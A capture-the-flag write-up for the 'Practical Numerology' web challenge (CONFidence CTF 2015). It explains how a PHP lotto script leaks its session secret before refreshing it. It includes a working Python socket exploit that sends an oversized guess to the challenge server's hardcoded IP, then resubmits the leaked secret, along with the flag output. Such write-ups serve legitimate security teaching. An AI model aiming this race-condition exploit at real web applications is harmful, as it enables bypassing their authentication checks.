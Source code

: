 # Teaser CONFidence CTF 2015: Practical Numerology

----------
## Challenge details
| Contest        | Challenge     | Category  | Points |
|:---------------|:--------------|:----------|-------:|
| Teaser CONFidence CTF 2015 | Practical Numerology | Web |    300 |

**Description:**
>*Here's a [lotto script](challenge/index.php), running on my old and slow computer. Can you pwn it?*

----------
## Write-up

The lotto script effectively does the following:

* It checks if the session (handled in PHP using cookies) contains the 'secret' variable, if not it generates a new secret
* It checks if the POST variable 'guess' is set, if so it compares the guess against the stored secret and if it matches we get the flag
* If it does not match, the secret is displayed and gets refreshed

So essentially we get a single shot at guessing the secret right.

Given that the secrets are, for all intents and purposes, generated securely:

>```php
>function generate_secret()
>{
>    $f = fopen('/dev/urandom','rb');
>    $secret1 = fread($f,32);
>    $secret2 = fread($f,32);
>    fclose($f);
>    
>    return sha1($secret1).sha1($secret2);
>}
>```

We will have to either somehow prevent the secret from being refreshed or be quick enough to submit it before it gets refreshed. The former could be possible with a [HEAD request](https://rdot.org/forum/showthread.php?t=1330) which will halt script execution at first output hence not executing the secret-refreshing code. Since our guess has to be submitted as a POST variable, however, this is not an option.

Looking at the code, however, we do see that in the case of a wrong guess the guess attempt itself is output too (being processed by htmlspecialchars first):

>```php
>echo "Wrong! '{$_SESSION['secret']}' != '";
>echo htmlspecialchars($guess);
>echo "'";
>
>$_SESSION['secret'] = generate_secret();
>```

Hence, if we make a request with a very large guess, we can buy ourselves some time between the display of the secret and its refreshing. So our exploit will consist of creating a session, making a very large guess, extracting the secret from the response and immediately closing the connection (since we can only have one connection per session) and submit the secret:

>```python
>#!/usr/bin/python
>#
># Teaser CONFidence CTF 2015
># Practical numerology (WEB/300)
>#
># @a: Smoke Leet Everyday
># @u: https://github.com/smokeleeteveryday
>#
>
>import socket
>import re
>
>url = '134.213.136.172'
>data = 'guess='
>
>payload1 = 'GET / HTTP/1.1\r\n'
>payload1 += 'Host: 134.213.136.172\r\n\r\n'
>
>payload2 = "POST / HTTP/1.1\r\n"
>payload2 += "Host: 134.213.136.172\r\n"
>payload2 += "Cookie: PHPSESSID={}\r\n"
>payload2 += "Content-Length: {}\r\n"
>payload2 += "Content-Type: application/x-www-form-urlencoded\r\n\r\n"
>payload2 += "{}"
>
>s = socket.create_connection((url, 80))
>s.send(payload1)
>cookie = re.findall('PHPSESSID=(.*);', s.recv(1500))[0]
>s.close()
>
>s = socket.create_connection((url, 80))
>guess = data + 'A'*1000000
>s.send(payload2.format(cookie, len(guess), guess))
>secret = re.findall("'(.*)' !=", s.recv(500))[0]
>s.close()
>
>s = socket.create_connection((url, 80))
>guess = data + secret
>s.send(payload2.format(cookie, len(guess), guess))
>print s.recv(2000).splitlines()[-1]
>s.close()
>```

Which produces the following output:

>```bash
>$ ./practicalnum_sploit.py 
>Lucky bastard! You won the flag! DrgnS{JustThinkOutOfTheBoxSometimes...}
>```